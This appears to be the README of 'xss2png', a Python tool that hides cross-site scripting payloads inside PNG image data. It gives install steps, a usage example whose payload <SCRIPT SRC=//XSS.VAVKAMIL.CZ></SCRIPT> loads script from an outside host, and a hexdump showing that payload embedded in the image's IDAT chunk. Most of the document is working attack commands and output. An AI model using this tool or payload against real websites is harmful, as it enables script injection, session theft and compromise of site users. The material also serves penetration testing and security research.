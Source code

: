 # xss2png
A simple tool to generate PNG images with XSS payloads stored in PNG

[![forthebadge](https://forthebadge.com/images/badges/made-with-python.svg)](https://forthebadge.com)

# Installation:
```
git clone https://github.com/krishpranav/xss2png
cd xss2png
sudo chmod +x *
python3 -m pip install -r requirements.txt
python3 xss2png.py
```

Test Usage:
```
$ python3 xss2png.py -p "<SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>" -o scripted.png
[i] Using payload: <SCRIPT SRC=//XSS.VAVKAMIL.CZ></SCRIPT>

XSS2PNG

[i] Generating final PNG output
[!] PNG output saved as: scripted.png
```
# Example:
```
$ hexdump -C scripted.png 
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 00 20 00 00 00 20  08 02 00 00 00 fc 18 ed  |... ... ........|
00000020  a3 00 00 00 79 49 44 41  54 78 9c 63 fc 3c 53 43  |....yIDATx.c.<SC|
00000030  52 49 50 54 20 53 52 43  3d 2f 2f 58 53 53 2e 56  |RIPT SRC=//XSS.V|
00000040  41 56 4b 41 4d 49 4c 2e  43 5a 3e 3c 2f 53 43 52  |AVKAMIL.CZ></SCR|
00000050  49 50 54 3e 20 a0 ff ba  e3 fc ab 7f cf dc 0c 7b  |IPT> ..........{|
00000060  c5 f2 d2 cb 43 f1 c1 fd  db 2a cf df de ff fc ff  |....C....*......|
00000070  f9 87 1f 56 7f ff f2 04  7a 5c bf 72 f7 ca b3 37  |...V....z\.r...7|
00000080  9a 7a 6b 3b fb 18 19 19  46 c1 28 18 05 a3 60 14  |.zk;....F.(...`.|
00000090  8c 82 51 30 0a 46 c1 28  18 05 43 0e 00 00 1b 22  |..Q0.F.(..C...."|
000000a0  26 02 5b 4d 02 76 00 00  00 00 49 45 4e 44 ae 42  |&.[M.v....IEND.B|
000000b0  60 82                                             |`.|
000000b2
```
